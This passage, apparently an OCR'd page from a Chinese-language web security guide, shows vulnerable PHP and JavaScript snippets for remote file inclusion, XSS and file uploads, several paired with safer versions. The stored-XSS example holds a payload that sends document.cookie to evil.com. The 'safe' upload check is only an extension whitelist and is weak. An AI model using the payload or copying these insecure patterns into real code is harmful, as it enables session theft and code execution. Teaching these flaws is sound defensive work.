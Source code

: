 ### 3.2. 远程文件包含 (RFI)

```php
// 危险的远程包含
include("http://" . $_GET['url']);
```

## 4. 跨站脚本 (XSS - Cross-Site Scripting)

### 4.1. 反射型 XSS

```html
<!-- 不安全的输出 -->
<div>Welcome <?php echo $_GET['name']; ?></div>

<!-- 安全的输出 -->
<div>Welcome <?php echo htmlspecialchars($_GET['name']); ?></div>
```

### 4.2. 存储型 XSS

```javascript
// 数据库中存储的恶意脚本
<script>
    new Image().src = 'http://evil.com/steal.php?cookie=' + document.cookie;
</script>
```

### 4.3. DOM型 XSS

```javascript
// 不安全的 DOM 操作
document.getElementById('div').innerHTML = location.hash.substring(1);
```

## 5. 文件上传漏洞

### 5.1. 危害级别：高

- **可上传恶意文件**
- **可能导致代码执行**

### 5.2. 示例：

```php
// 不安全的文件上传
move_uploaded_file($_FILES['file']['tmp_name'], 
                  '/uploads/' . $_FILES['file']['name']);

// 安全的文件上传
$allowed = ['jpg', 'png', 'gif'];
$ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
if (in_array($ext, $allowed)) {
    // 处理上传
}
```
